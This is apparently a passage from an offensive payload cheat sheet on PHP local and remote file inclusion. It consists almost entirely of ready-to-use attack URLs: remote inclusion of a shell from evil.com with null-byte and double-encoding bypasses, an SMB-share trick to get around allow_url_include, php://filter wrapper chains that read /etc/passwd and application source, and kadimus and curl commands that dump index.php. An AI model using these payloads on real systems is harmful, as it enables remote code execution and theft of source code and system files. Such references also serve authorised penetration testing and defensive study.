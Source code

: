 ```powershell
http://example.com/index.php?page=http://evil.com/shell.txt
```

### Null byte

```powershell
http://example.com/index.php?page=http://evil.com/shell.txt%00
```

### Double encoding

```powershell
http://example.com/index.php?page=http:%252f%252fevil.com%252fshell.txt
```

### Bypass allow_url_include

When `allow_url_include` and `allow_url_fopen` are set to `Off`. It is still possible to include a remote file on Windows box using the `smb` protocol.

1. Create a share open to everyone
2. Write a PHP code inside a file : `shell.php`
3. Include it `http://example.com/index.php?page=\\10.0.0.1\share\shell.php`


## LFI / RFI using wrappers

### Wrapper php://filter

The part "php://filter" is case insensitive

```powershell
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.iconv.utf-8.utf-16/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=pHp://FilTer/convert.base64-encode/resource=index.php
```

Wrappers can be chained with a compression wrapper for large files.

```powershell
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
```

NOTE: Wrappers can be chained multiple times using `|` or `/`: 
- Multiple base64 decodes: `php://filter/convert.base64-decoder|convert.base64-decode|convert.base64-decode/resource=%s`
- deflate then base64encode (useful for limited character exfil): `php://filter/zlib.deflate/convert.base64-encode/resource=/var/www/html/index.php`

```powershell
./kadimus -u "http://example.com/index.php?page=vuln" -S -f "index.php%00" -O index.php --parameter page 
curl "http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d > index.php
```
